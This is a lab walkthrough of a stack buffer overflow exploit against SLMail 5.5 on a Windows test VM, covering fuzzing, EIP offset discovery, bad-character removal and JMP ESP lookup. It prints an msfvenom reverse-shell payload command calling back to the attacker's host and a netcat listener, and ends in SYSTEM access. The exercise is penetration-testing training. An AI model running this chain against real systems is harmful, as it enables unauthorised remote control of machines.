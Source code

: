 # Windows Buffer Overflow

## Objective:
This project is centered on understanding and executing a Windows buffer overflow. By targeting a specific Windows virtual machine, the project aimed to shed light on the intricacies of buffer overflow vulnerabilities in a Windows environment, emphasizing the steps and tools necessary to exploit such flaws. The key objectives of the project are detailed below:
- **Manual Buffer Overflow:** Engaging in a step-by-step process to perform a buffer overflow against a Windows target, understanding the specific conditions and elements that lead to successful exploitation.
- **Immunity Debugger Integration:** Leveraging the Immunity Debugger to trace and understand the buffer overflow process in real time. This involved attaching specific processes to the debugger and observing program behavior during exploitation attempts.
- **Character Testing and EIP Control:** Using a fuzzer script to determine the exact point of EIP overwrite, followed by a systematic approach to identifying and removing bad characters to ensure the crafted payload's effectiveness.
- **Payload Crafting and Exploitation:** Utilizing MSFvenom to generate a specific payload, followed by setting breakpoints and adjusting scripts to gain control over the program's execution. Successfully exploiting the vulnerability led to obtaining a reverse shell on the target machine.

## Walkthrough:
- Initialized the BOF machine, accessed the command prompt as an administrator, and ran “slmgr /rearm” and “ipconfig” to determine the machine's IP address as “10.0.2.10”.

- Installed “12f1ab027e5374587e7e998c00682c5d-SLMail55_4433.exe” on the Windows VM, rebooted it, and created a desktop shortcut for “SLmail.cpl”.

- Opened both “SLmail.cpl” & “Immunity debugger” with administrative rights.

- In “Immunity debugger”, attached the “SLmail.exe” file and ensured it's actively running.

- On my Kali machine, downloaded the fuzzer script labeled “fuzzerScript.py” and stored it in a “BOF” folder on my desktop.

- In the same folder, created and edited a file named “fuzzy.py”. Line 13 requires the target IP address and port number.

- Conducted an nmap scan on the target VM to confirm open ports and noted the active “pop3” protocol.

- Updated “fuzzy.py” with the target IP address and port, then saved changes.

- Navigated to the BOF directory and executed the “fuzzy.py” script using the “python2 fuzzy.py” command.

- Observed the EIP update to “41414141” in Immunity debugger.

- Generated an MSF pattern of 3000 bytes using the “msf-pattern_create -l 3000” command to pinpoint control flow locations.

- Updated the “fuzzy.py” script's buffer with the generated MSF pattern and removed unnecessary loops.

- Reset SLmail.cpl and the Immunity debugger, re-executed the “fuzzy.py” script, and noted the updated EIP value in Immunity debugger.

- Determined the exact memory offset using the “msf-pattern_offset -l 3000 -q 39694438” command.

- Validated the offset by adjusting the buffer in “fuzzy.py” and observing the Immunity debugger's EIP value.

- Incorporated a list of potential bad characters into the “fuzzy.py” buffer to refine the exploit.

- Re-executed the adjusted “fuzzy.py” script and followed the ESP in dump within Immunity debugger to identify and remove any bad characters.

- Identified certain characters as "bad" and removed them from the "fuzzy.py" buffer.

- Re-executed the "fuzzy.py" script with the refined buffer and monitored the outcome in Immunity debugger.

- Searched for mona modules using the “!mona modules” command and identified a suitable dll with “!mona find -s "\xff\xe4" -m SLMFC.DLL”.

- Crafted a shell code using the “msfvenom -p windows/shell_reverse_tcp LPORT=4444 LHOST=10.0.2.6 -f c -b "\x00\x0a\x0d"” command.

- Integrated the shell code into “fuzzy.py” and adjusted the buffer accordingly.

- Established a netcat listener on the Kali machine using “nc -lvp 4444”.

- Restarted SLmail, ran the “fuzzy.py” script, and achieved system access with highest-level permissions as confirmed by the “whoami” command.
